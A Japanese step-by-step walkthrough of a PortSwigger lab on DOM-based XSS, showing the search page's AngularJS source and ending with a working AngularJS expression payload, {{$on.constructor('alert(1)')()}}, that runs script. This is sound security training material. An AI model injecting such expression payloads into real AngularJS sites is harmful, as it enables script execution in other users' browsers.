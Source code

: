 # HTML エンコードされた山括弧と二重引用符を使用した AngularJS 式の DOM XSS

次のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

- 1. ハッキングラボにアクセスします

* 2. 任意のワードで検索を行います
* 3. 検索結果ページのソースを確認します  
     ※ng-\*を使用しているので angular を使用していることが分かります。

````html
<body ng-app>
        <div theme="blog">
            <section class="maincontainer">
                <div class="container is-page">

                    <section class=blog-header>
                        <h1>0 search results for 'abc'</h1>
                        <hr>
                    </section>
                    <section class=search>
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search>
                            <button type=submit class=button>Search</button>
                        </form>
                    </section>
                    <section class="blog-list no-results">
                        <div class=is-linkback>
        <a href="/">Back to Blog</a>
                        </div>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
    ```
````

- 4. 以下の angular 式を検索ワードにして検索するとスクリプトが実行できます

```js
{
  {
    $on.constructor("alert(1)")();
  }
}
```
